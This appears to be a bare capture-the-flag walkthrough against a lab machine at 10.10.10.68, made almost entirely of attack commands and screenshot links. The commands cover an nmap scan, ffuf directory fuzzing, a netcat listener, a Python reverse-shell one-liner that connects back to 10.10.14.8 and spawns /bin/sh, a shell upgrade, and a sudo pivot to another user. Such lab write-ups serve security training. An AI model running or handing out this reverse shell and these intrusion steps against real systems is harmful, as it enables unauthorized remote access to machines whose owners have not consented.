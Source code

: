 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://user-images.githubusercontent.com/33616880/231078057-77c3fa36-7209-4521-8619-dacbe002e5e0.png)


![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231078144-85f18b51-a11c-4111-8827-4e1957812732.png)


![image](https://user-images.githubusercontent.com/33616880/231079195-c3821e9c-f4e0-45b6-944d-696a708a6df7.png)


https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux


```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
